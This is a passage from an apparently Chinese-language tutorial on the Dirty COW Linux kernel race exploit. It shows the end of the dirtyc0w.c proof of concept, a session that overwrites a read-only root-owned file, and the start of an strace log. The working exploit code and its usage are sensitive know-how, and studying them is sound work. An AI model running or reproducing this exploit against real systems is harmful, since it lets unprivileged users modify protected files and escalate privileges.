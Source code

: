 ```c
    > Create a private copy-on-write mapping.  Updates to the
    > mapping are not visible to other processes mapping the same
    > file, and are not carried through to the underlying file.  It
    > is unspecified whether changes made to the file after the
    > mmap() call are visible in the mapped region.
    */
    /*
    You have to open with PROT_READ.
    */
    map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);
    printf("mmap %zx\n\n", (uintptr_t)map);
    pthread_create(&pth1, NULL, madviseThread, argv[1]);
    pthread_create(&pth2, NULL, procselfmemThread, argv[2]);
    pthread_join(pth1, NULL);
    pthread_join(pth2, NULL);
    return 0;
}
```

用法如下：

```bash
$ sudo -s
# echo this is not a test > foo
# chmod 0404 foo
$ ls -lah foo
-r-----r-- 1 root root 19 Oct 20 15:23 foo
$ cat foo
this is not a test
$ gcc -pthread dirtyc0w.c -o dirtyc0w
$ ./dirtyc0w foo m00000000000000000
mmap 56123000
madvise 0
procselfmem 1800000000
$ cat foo
m00000000000000000
```

我们用 strace 来看看执行过程

```bash
strace -f -o dirtyc0w.log ./dirtyc0w foo m00000000000000000
```

我们来看 `dirtyc0w.log` 的前面部分

```bash
52725 execve("./dirtyc0w", ["./dirtyc0w", "foo", "m00000000000000000"], [/* 19 vars */]) = 0
52725 brk(NULL)                         = 0x1461000
52725 access("/etc/ld.so.nohwcap", F_OK) = -1 ENOENT (No such file or directory)
52725 access("/etc/ld.so.preload", R_OK) = -1 ENOENT (No such file or directory)
52725 open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
52725 fstat(3, {st_mode=S_IFREG|0644, st_size=88932, ...}) = 0
52725 mmap(NULL, 88932, PROT_READ, MAP_PRIVATE, 3, 0) = 0x7fb97dacf000
52725 close(3)                          = 0
52725 access("/etc/ld.so.nohwcap", F_OK) = -1 ENOENT (No such file or directory)
52725 open("/lib/x86_64-linux-gnu/libpthread.so.0", O_RDONLY|O_CLOEXEC) = 3
52725 read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\260`\0\0\0\0\0\0"..., 832) = 832
52725 fstat(3, {st_mode=S_IFREG|0755, st_size=138696, ...}) = 0
52725 mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7fb97dace000
52725 mmap(NULL, 2212904, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x7fb97d6a3000
52725 mprotect(0x7fb97d6bb000, 2093056, PROT_NONE) = 0
52725 mmap(0x7fb97d8ba000, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x17000) = 0x7fb97d8ba000
52725 mmap(0x7fb97d8bc000, 13352, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x7fb97d8bc000
52725 close(3)                          = 0
```